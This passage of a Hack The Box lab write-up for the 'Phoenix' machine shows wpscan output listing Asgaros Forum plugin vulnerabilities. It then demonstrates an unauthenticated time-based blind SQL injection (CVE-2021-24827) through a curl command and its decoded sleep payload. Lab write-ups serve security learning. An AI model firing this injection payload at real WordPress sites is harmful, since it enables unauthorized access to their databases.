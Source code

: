      |      - https://wpscan.com/vulnerability/35272197-c973-48ad-8405-538bfbafa172
     |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0411
     |      - https://plugins.trac.wordpress.org/changeset/2669226/asgaros-forum
     |
     | Version: 1.15.12 (10% confidence)
     | Found By: Query Parameter (Passive Detection)
     |  - https://phoenix.htb/wp-content/plugins/asgaros-forum/skin/widgets.css?ver=1.15.12  



Of the four vulnerabilities identified, two require admin level access
(XSS and SQLi),
[one](https://wpscan.com/vulnerability/35272197-c973-48ad-8405-538bfbafa172)
requires "Subscriber" level access to get SQLI, and the [top
one](https://wpscan.com/vulnerability/36cc5151-1d5e-4874-bcec-3b6326235db1)
is unauthenticated SQLI.

## Shell as wp-user

### SQLI

#### POC

Both of the SQL injections available to me (CVE-2021-24827 and
CVE-2022-0411 (assuming I can create an account)) are both blind and
time-based. I'll start working with CVE-2021-24827, as it's
unauthenticated. I can get the POC from the `wpscan`
[page](https://wpscan.com/vulnerability/36cc5151-1d5e-4874-bcec-3b6326235db1)
and try it:



    oxdf@hacky$ time curl -k 'https://phoenix.htb/forum/?subscribe_topic=1%20union%20select%201%20and%20sleep(10)'>/dev/null
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 30784    0 30784    0     0   2937      0 --:--:--  0:00:10 --:--:--  9729

    real    0m10.488s
    user    0m0.013s
    sys     0m0.007s



It takes about 10 seconds to return (the result thrown to `/dev/null`
since it doesn't matter). That fits since the payload is a 10 seconds
sleep (url decoded):



    /forum/?subscribe_topic=1 union select 1 and sleep(10)
